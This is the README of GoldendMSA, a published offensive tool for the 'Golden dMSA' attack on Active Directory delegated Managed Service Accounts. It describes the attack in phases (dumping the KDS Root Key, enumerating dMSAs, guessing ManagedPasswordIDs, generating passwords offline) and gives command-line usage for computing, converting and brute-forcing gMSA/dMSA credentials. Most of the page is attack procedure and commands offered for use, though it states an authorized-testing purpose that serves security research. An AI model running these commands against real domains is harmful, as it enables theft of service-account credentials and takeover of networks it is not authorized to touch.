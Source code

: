 # Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is available in this post [golden dMSA](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```
![image](assets/Wordlist.jpg)


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```
![image](assets/Info.jpg)


Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```
![image](assets/Kds.jpg)


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```
![image](assets/Bruteforce.jpg)

## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA
- https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/
